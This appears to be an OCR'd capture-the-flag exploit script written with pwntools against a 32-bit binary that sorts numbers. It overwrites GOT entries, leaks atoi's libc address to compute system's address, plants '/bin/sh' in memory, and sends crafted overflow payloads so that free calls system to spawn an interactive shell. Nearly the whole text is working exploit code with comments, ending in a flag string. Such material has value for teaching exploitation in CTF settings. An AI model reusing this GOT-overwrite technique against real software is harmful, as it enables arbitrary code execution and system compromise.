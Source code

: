 ```
GOT_FREE_ADDR = 0x0804a018
GOT_ATOI_ADDR = 0x0804a038

write_int_to_addr(n=MAIN_ADDR, dst=GOT_FREE_ADDR)

# This will put a huge integer in the space above the last GOT entry and sort the last
# GOT entry and that integer, then return them, thus leaking a libc address.
ATOI_ADDR = leak_atoi_addr()

if local:
	#ATOI_OFFSET = REDACTED
	#SYSTEM_OFFSET = REDACTED
else:
	ATOI_OFFSET = 0x2d250
	SYSTEM_OFFSET = 0x3ada0

log.info("libc base addr = " + hex(ATOI_ADDR - ATOI_OFFSET) + "\n")
SYSTEM_ADDR = ATOI_ADDR - ATOI_OFFSET + SYSTEM_OFFSET
log.info("system addr = " + hex(SYSTEM_ADDR) + "\n")

# Thought for finishing this out: put "/bin/sh" in the bss section,
# then overwrite free with system
# and have the pointer to A point to that string when free is called
write_int_to_addr(0x622f2f2f, GOT_ATOI_ADDR+0x8) # ///b
write_int_to_addr(0x732f6e69, GOT_ATOI_ADDR+0xc) # in/s
write_int_to_addr(0x74743b68, GOT_ATOI_ADDR+0x10) # h;tt


p.recvuntil("sort?")
p.send('1\n')
p.recvuntil("number:")
n = SYSTEM_ADDR - (1 << 32) # convert to negative number
payload = ""
payload += str(n)
payload += "A"*(16 - len(str(n)))#7
payload += p32(0x2) # total n to read in
payload += p32(0x0) # current index of number to read in
payload += "B"*4
payload += p32(GOT_FREE_ADDR)
payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
p.send(payload)

# Still have to send another number and in so doing overwrite the pointer
# to the A array with a pointer to the bss section, so that when we call
# free we call system('/bin/sh')
p.recvuntil("number:")
n = 0x732f6e69
payload = ""
payload += str(n)
# "134514710" # MAIN_ADDR in ASCII
payload += "A"*(16 - len(str(n)))#7
payload += p32(0x2) # total n to read in
payload += p32(0x1) # current index of number to read in
payload += "B"*4
payload += p32(GOT_ATOI_ADDR+0x8)
payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
p.send(payload)

p.interactive()

#*CTF{welcome}
```
